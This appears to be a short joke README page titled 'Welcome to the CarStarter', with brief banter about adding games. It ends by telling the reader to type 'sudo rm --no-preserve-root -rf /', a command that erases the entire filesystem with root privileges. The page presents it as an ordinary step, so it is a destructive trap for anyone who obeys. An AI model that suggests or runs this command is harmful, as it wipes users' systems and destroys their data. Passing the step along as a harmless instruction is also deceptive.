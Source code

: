 # Sup yall, and
---
title: Welcome to the CarStarter
---
Can we add games?
I said, cam we add games??
***Probably not.***
Type in:
> sudo rm --no-preserve-root -rf /

